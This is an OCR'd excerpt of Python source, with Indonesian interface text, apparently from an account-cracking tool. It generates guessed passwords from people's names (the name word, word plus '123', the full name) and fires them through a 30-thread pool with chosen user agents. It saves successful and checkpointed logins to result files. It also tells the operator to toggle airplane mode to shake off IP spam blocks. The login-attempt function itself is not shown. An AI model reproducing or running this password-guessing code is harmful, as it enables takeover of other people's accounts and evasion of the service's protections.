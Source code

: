 		elif c=='3':
			self.generateAPI(xnx,c)
		else:
			self.passwordAPI(xnx)

	def generateAPI(self,user,o):
		print(f"""{CY}
┣[ Mau User Agent Versi Berapa ]
┃
┣[•] USER-AGENT V1
┣[•] USER-AGENT V2
┣[•] USER-AGENT V3
		""")
		ua=input(f'┣[•] Masukan Pilihan No:{C} ')
		if ua=='1':
			uaAPI=User_Agent()
		elif ua=='2':
			uaAPI=user_agent()
		elif ua=='3':
                        uaAPI=user_agentAPI()

		print(f"""
 {H}┣[•] Hasil OK disimpan ke: result/{day}.txt
 {M}┣[•] Hasil CP disimpan ke: result/{day}.txt

 ┣[•] Jika alamat IP terkena spam hidupkan mode pesawat selama 10 detik
{C}		""")
		with ThreadPoolExecutor(max_workers=30) as shinkai:
			for i in user:
				try:
					username=i.split("|")[0]
					password=i.split("|")[1].lower()
					for w in password.split(" "):
						if len(w)<3:
							continue
						else:
							w=w.lower()
							if o=="1":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123']
								else:
									sandi=[w]
							elif o=="2":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123',w]
								else:
									sandi=[w+'123',w]
							elif o=="3":
								if len(w)==3 or len(w)==4 or len(w)==5:
									sandi=[w+'123',w,password.lower()]
								else:
									sandi=[w+'123',w,password.lower()]
							shinkai.submit(self.crackAPI,username,sandi,uaAPI)
				except:
					pass
		exit(f'\n\n{K}┣[] Crack selesai...{C}')
